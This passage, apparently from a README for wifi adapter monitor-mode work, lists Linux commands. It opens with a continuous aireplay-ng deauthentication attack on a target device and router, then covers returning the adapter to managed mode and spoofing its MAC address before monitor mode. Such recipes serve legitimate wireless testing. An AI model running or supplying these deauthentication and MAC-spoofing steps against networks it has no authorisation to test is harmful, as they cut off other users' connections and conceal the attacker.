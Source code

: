 ```
sudo aireplay-ng --deauth 0 -c <deviceMAC> -a <routerMAC> <wlan0> -D
```
Option for 2.4 GHz:
```
sudo aireplay-ng --deauth 0 -c <deviceMAC> -a <routerMAC> <wlan0>
```

-----

### Revert to Managed Mode

Check the wifi interface name and mode
```
iw dev
```

Take the wifi interface down
```
sudo ip link set <wlan0> down
```

Set managed mode
```
sudo iw <wlan0> set type managed
```

Bring the wifi interface up
```
sudo ip link set <wlan0> up
```

Verify the wifi interface name and mode has changed
```
iw dev
```

-----

### Change the MAC Address before entering Monitor Mode

Check the wifi interface name, MAC address and mode
```
iw dev
```

Take the wifi interface down
```
sudo ip link set dev <wlan0> down
```

Change the MAC address
```
sudo ip link set dev <wlan0> address <new mac address>
```

Set monitor mode
```
sudo iw <wlan0> set monitor control
```
